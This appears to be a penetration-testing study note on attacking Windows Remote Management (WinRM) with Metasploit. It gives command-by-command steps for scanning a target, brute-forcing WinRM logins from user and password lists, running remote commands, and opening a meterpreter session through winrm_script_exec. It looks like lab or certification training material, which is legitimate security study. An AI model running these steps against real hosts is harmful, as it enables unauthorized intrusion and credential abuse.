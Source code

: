 * Windows Remote Management protocol.
* **Uses**
  * Remotely access and interact with Windows hosts on a local network or on Internet
  * Manage and configure Windows systems remotely
 
* Typically uses TCP port 5985 and 5986 (HTTPS)

* **How to exploit**
  * USe MSF to identify WinRM users and passwords.
  * Also to obtain a meterpreter session on the target.
 
* PRACTICAL
* `service postgresql start && msfconsole`
* `workspace -a [name]`
* `db_nmap -sS -sV -O [IP]`
* `services` --> To see the services running on the target and see which of these can be exploited
* `search type:auxiliary winrm`
* `use auxiliary/scanner/winrm/winrm_auth_methods`
* `set rhosts [IP]`
* `run` --> This will give the authentication methods used on the target
* ***
* `search winrm_login`
* `use auxiliary/scanner/winrm/winrm_login`
* set rhosts, user_file and pass_file
* `run`
* ***
* `search winrm_cmd`
* `use auxiliary/scanner/winrm/winrm_cmd`
* `set username [username obtained from the previous step]`
* `set password [password]`
* `set CMD whoami`
* `run` --> This should tell the level of privilege we have on the target system
* ***
* **To obtain a meterpreter session**
* `use exploit/windows/winrm/winrm_script_exec`
* `set username [user]`
* `set password [pass]`
* `set force_vbs true` --> This will force the module to use the VBS Cmd Stager instead of Power shell Cmd stager.
* `run`
